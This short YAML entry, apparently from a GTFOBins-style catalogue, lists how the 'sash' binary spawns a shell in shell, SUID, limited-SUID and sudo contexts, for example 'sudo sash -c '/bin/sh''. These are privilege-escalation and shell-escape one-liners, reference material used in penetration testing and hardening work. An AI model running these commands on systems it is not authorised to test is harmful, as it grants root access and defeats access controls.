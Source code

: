 ```yaml
---
functions:
  shell:
    - code: sash -c '/bin/sh'
  suid:
    - code: ./sash -c '/bin/sh -p'
  limited-suid:
    - code: ./sash -c '/bin/sh'
  sudo:
    - code: sudo sash -c '/bin/sh'
---
```

